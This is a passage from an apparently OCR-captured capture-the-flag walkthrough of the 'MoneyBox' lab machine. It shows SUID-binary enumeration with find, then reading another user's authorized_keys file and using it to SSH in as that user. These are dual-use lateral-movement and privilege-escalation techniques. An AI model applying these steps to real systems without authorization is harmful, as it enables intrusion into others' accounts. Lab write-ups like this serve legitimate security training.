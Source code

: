 Binary privilege check

renu@MoneyBox:/$ find / -perm -4000 -type f -exec ls -al {} \; 2>/dev/null

-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd

-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount

-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp

-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn

-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh

-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount

-rwsr-xr-x 1 root root 34896 Apr 22  2020 /usr/bin/fusermount

-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su

-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd

-rwsr-xr-x 1 root root 157192 Jan 20  2021 /usr/bin/sudo

-rwsr-xr-- 1 root messagebus 51184 Oct 10  2022 /usr/lib/dbus-1.0/dbus-daemon-launch-helper

-rwsr-xr-x 1 root root 10232 Mar 27  2017 /usr/lib/eject/dmcrypt-get-device

-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign

Nothing promising

I can dump lily's keys though and switch to her user account

renu@MoneyBox:/home/lily$ cat .ssh/authorized_keys 

ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDRIE9tEEbTL0A+7n+od9tCjASYAWY0XBqcqzyqb2qsNsJnBm8cBMCBNSktugtos9HY9hzSInkOzDn3RitZJXuemXCasOsM6gBctu5GDuL882dFgz962O9TvdF7JJm82eIiVrsS8YCVQq43migWs6HXJu+BNrVbcf+xq36biziQaVBy+vGbiCPpN0JTrtG449NdNZcl0FDmlm2Y6nlH42zM5hCC0HQJiBymc/I37G09VtUsaCpjiKaxZanglyb2+WLSxmJfr+EhGnWOpQv91hexXd7IdlK6hhUOff5yNxlvIVzG2VEbugtJXukMSLWk2FhnEdDLqCCHXY+1V+XEB9F3 renu@debian

renu@MoneyBox:/home/lily$ ssh lily@localhost

The authenticity of host 'localhost (::1)' can't be established.

ECDSA key fingerprint is SHA256:8GzSoXjLv35yJ7cQf1EE0rFBb9kLK/K1hAjzK/IXk8I.

Are you sure you want to continue connecting (yes/no)? yes

Warning: Permanently added 'localhost' (ECDSA) to the list of known hosts.

Linux MoneyBox 4.19.0-22-amd64 #1 SMP Debian 4.19.260-1 (2022-09-29) x86_64

  

The programs included with the Debian GNU/Linux system are free software;

the exact distribution terms for each program are described in the

individual files in /usr/share/doc/*/copyright.

  

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent

permitted by applicable law.
